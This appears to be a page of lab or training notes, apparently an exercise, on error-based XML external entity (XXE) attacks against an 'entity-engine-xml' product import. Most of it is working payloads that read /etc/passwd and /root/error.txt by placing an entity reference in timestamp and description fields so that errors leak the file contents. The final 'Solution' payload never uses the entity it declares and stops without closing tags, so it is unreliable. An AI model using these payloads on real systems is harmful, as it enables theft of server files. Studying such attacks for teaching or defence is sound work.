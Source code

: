 ###### Error-Based Exploitation

One way to do this is to place the payload in a field that will cause a validation error. For example, the baseline "Product" example includes several attributes containing timestamps. Assuming the application validates the XML values or uses them in a database, the application might throw an error if we include a value in one of those elements that cannot be parsed as a timestamp.

Let's update our exploit payload, moving the "createdStamp" from an attribute to an element and placing our entity reference there. We'll also remove the entity reference from the "longDescription" element.

```
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe  SYSTEM "file:///etc/passwd">
]>
<entity-engine-xml>
<Product createdTxStamp="2021-06-04 08:15:48.983" description="Giant Widget with Wheels" internalName="Giant Widget variant explosion" isVariant="N" isVirtual="Y" largeImageUrl="/images/products/WG-9943/large.png" lastUpdatedStamp="2021-06-04 08:16:18.521" lastUpdatedTxStamp="2021-06-04 08:16:18.258" primaryProductCategoryId="202" productId="XXE-0001" productName="Giant Widget with variant explosion" productTypeId="FINISHED_GOOD" productWeight="22.000000" quantityIncluded="10.000000" smallImageUrl="/images/products/WG-9943/small.png" virtualVariantMethodEnum="VV_VARIANTTREE">
<createdStamp>&xxe;</createdStamp>
<longDescription>XXE</longDescription>
</Product>
</entity-engine-xml>
```
We'll remove description as an attribute and replace it as an element with our external entity reference as its value. We also need to update createdStamp with a valid timestamp.

```
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe  SYSTEM "file:///etc/passwd">
]>
<entity-engine-xml>
<Product createdTxStamp="2021-06-04 08:15:48.983" internalName="Giant Widget variant explosion" isVariant="N" isVirtual="Y" largeImageUrl="/images/products/WG-9943/large.png" lastUpdatedStamp="2021-06-04 08:16:18.521" lastUpdatedTxStamp="2021-06-04 08:16:18.258" primaryProductCategoryId="202" productId="XXE-0001" productName="Giant Widget with variant explosion" productTypeId="FINISHED_GOOD" productWeight="22.000000" quantityIncluded="10.000000" smallImageUrl="/images/products/WG-9943/small.png" virtualVariantMethodEnum="VV_VARIANTTREE">
<createdStamp>2021-06-04 08:15:49</createdStamp>
<description>&xxe;</description>
<longDescription>XXE</longDescription>
</Product>
</entity-engine-xml>
```


Solution:

```
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe  SYSTEM "file:///root/error.txt">
]>
<entity-engine-xml>
<Product createdTxStamp="2021-06-04 08:15:48.983" internalName="Giant Widget variant explosion" isVariant="N" isVirtual="Y" largeImageUrl="/images/products/WG-9943/large.png" lastUpdatedStamp="2021-06-04 08:16:18.521" lastUpdatedTxStamp="2021-06-04 08:16:18.258" productName="Giant Widget with variant explosion" productTypeId="FINISHED_GOOD" productWeight="22.000000" quantityIncluded="10.000000" smallImageUrl="/images/products/WG-9943/small.png" virtualVariantMethodEnum="VV_VARIANTTREE">
<createdStamp>2021-06-04 08:15:49</createdStamp>
<description>XXE</description>
<longDescription>XXE</longDescription>
```